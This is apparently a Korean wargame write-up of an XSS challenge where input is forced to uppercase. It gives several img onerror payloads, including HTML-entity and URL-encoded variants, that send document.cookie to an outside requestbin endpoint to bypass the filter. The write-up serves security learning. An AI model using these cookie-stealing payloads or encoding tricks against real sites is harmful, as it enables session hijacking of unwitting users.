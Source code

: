 

보니까 제가 치는 내용이 모두 대문자로 바뀌는것 같습니다!

js는 대소문자를 구분하기 때문에 대문자로 XSS를 할 수 있는 방법에 대해서 생각해야 됩니다…

이럴땐 커닝페이퍼를 잠시…ㅎ


![img](https://blackperl-security.gitlab.io/img/post/2018-09-12-webtour-04/xss4_9.png)



> **[XSS Cheat Sheet](https://gist.github.com/sseffa/11031135)**



오! 이걸로 하면 되겠는데요? 소문자가 없어요!

```
<IMG SRC=1 onerror=location='서버주소?a='+document.cookie>
```

html entity를 활용해서 풀면 되겠다는 생각까지 왔어요!



> [HTML entity encoder/decoder](https://mothereff.in/html-entities)


![img](https://blackperl-security.gitlab.io/img/post/2018-09-12-webtour-04/xss4_10.png)

```
<img src=1 onerror=&#x6C;&#x6F;&#x63;&#x61;&#x74;&#x69;&#x6F;&#x6E;&#x3D;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x62;&#x69;&#x6E;&#x2E;&#x66;&#x75;&#x6C;&#x6C;&#x63;&#x6F;&#x6E;&#x74;&#x61;&#x63;&#x74;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x31;&#x63;&#x63;&#x69;&#x34;&#x78;&#x73;&#x31;&#x2F;&#x3F;&#x61;&#x3D;&#x27;&#x2B;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x63;&#x6F;&#x6F;&#x6B;&#x69;&#x65;>
```



그래서 이렇게 했는데 결과는 `fail`!

왜 안될까…ㅠㅠㅠ막 혼자 고민했는데 커널 잘하는 `puing`언니가 알려줌!

`#`이랑 `&`로 html entity로 변경해줘야 되는거였어…ㅠㅠ 대박



```
<img src=1 onerror=%26%23x6C;%26%23x6F;%26%23x63;%26%23x61;%26%23x74;%26%23x69;%26%23x6F;%26%23x6E;%26%23x3D;%26%23x27;%26%23x68;%26%23x74;%26%23x74;%26%23x70;%26%23x3A;%26%23x2F;%26%23x2F;%26%23x72;%26%23x65;%26%23x71;%26%23x75;%26%23x65;%26%23x73;%26%23x74;%26%23x62;%26%23x69;%26%23x6E;%26%23x2E;%26%23x66;%26%23x75;%26%23x6C;%26%23x6C;%26%23x63;%26%23x6F;%26%23x6E;%26%23x74;%26%23x61;%26%23x63;%26%23x74;%26%23x2E;%26%23x63;%26%23x6F;%26%23x6D;%26%23x2F;%26%23x31;%26%23x63;%26%23x63;%26%23x69;%26%23x34;%26%23x78;%26%23x73;%26%23x31;%26%23x2F;%26%23x3F;%26%23x61;%26%23x3D;%26%23x27;%26%23x2B;%26%23x64;%26%23x6F;%26%23x63;%26%23x75;%26%23x6D;%26%23x65;%26%23x6E;%26%23x74;%26%23x2E;%26%23x63;%26%23x6F;%26%23x6F;%26%23x6B;%26%23x69;%26%23x65;>
```



이렇게 또 한문제를 클리어했다!
